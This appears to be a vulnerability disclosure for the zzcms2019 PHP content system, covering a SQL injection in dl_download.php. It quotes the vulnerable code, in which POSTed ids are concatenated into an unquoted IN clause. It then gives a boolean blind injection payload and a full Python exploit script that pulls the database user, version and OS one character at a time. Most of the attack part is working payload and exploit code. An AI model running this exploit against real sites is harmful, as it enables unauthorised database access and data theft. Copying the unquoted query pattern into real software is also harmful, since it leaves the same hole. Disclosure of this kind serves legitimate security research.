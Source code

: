 # zzcms2019 SQL injection vulnerability in dl_download

The front desk registers the company type account publishing agent (local test, the zzcms_dl table in the database needs data)

![](https://i.loli.net/2019/09/20/XhR1fFP73qlAn6M.png)

Local testing requires the user group to have the right to download proxy information (for convenience, open directly in the background, simulate real vip users)

The vulnerability code is located at line 68 of `/dl/dl_download.php`, some of the key codes are as follows

```php
If(!empty($_POST['id'])){
    For($i=0; $i<count($_POST['id']);$i++){
    $id=$id.($_POST['id'][$i].',');
}
}else{
$founderr=1;
$ErrMsg="<li>Operation failed! Please select the information to download</li>";
}
$id=substr($id,0,strlen($id)-1);//Remove the last ","

If (isset($_POST['FileExt'])){
$FileExt=$_POST['FileExt'];
}else{
$FileExt="xls";
}

. . . . . . . . .

If ($FileExt=="xls"){
Header("Content-type:application/vnd.ms-excel;");
Header("Content-Disposition:filename=dls_".date('Y-m-d H:i:s').".xls");
}elseif ($FileExt=="doc"){
Header("Content-type:application/vnd.ms-word;");
Header("Content-Disposition:filename=dls_".date('Y-m-d H:i:s').".doc");
}

If (strpos($id,",")>0){
$sql="select * from zzcms_dl where passed=1 and id in (". $id .") order by id desc";
}else{
$sql="select * from zzcms_dl where passed=1 and id='$id'";
}
$rs=query($sql);
```

There is no single quoted package in and id in (". $id ."), so you can construct the following payload to make a boolean blind injection.

`FileExt=wtf&id[0]=9999999,(if(((ascii(substr((select @@version),1,1)))=53),1,0)))#` 

![](https://i.loli.net/2019/09/20/1uzdEiqoZVvObRs.png)

Here is exp:

```python
#coding: utf-8
import requests
import string

url = 'http://{}/dl/dl_download.php'

#header 头，自己根据实际环境做修改
headers = {
'Host':'{}',
'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:68.0) Gecko/20100101 Firefox/68.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded',
'Content-Length':'23',
'Connection':'keep-alive',
'Cookie':'{}',
'Upgrade-Insecure-Requests':'1'
}

def Sqli(host,sql):
	global url
	url = url.format(host)
	sqli = "ascii(substr(({}),{},1)))={}"
	sqli_2 = "0,(if((({}),1,0)))#"
	res_data = ""
	s = requests.session()
	i = 1
	while 1:
		tmp_data = res_data
		for c in string.printable:
			post_sqli_data = sqli_2.format(sqli.format(sql,str(i),ord(c)))
			data = {'id[0]':post_sqli_data,'FileExt':'wtf'}
			res = s.post(url,data=data, headers=headers)
			if '13333333333' in res.text: #自己根据实际环境做修改
				res_data += c
				print (res_data)
				break
		i += 1
		if tmp_data == res_data:
			print ('完成')
			return 

if __name__ == "__main__":
	#设置 host 地址
	host = "127.0.0.1:9000"
	#设置用户 cookie
	user_cookie = "PHPSESSID=dh6bhd10g47tjc4jlhqf2leqnn; UserName=admin2; PassWord=343b1c4a3ea721b2d640fc8700db0f36"
	sql = "select group_concat(user(),version(),@@version_compile_os)"
	headers['Host'] = headers['Host'].format(host)
	headers['Cookie'] = headers['Cookie'].format(user_cookie)
	Sqli(host,sql)
```
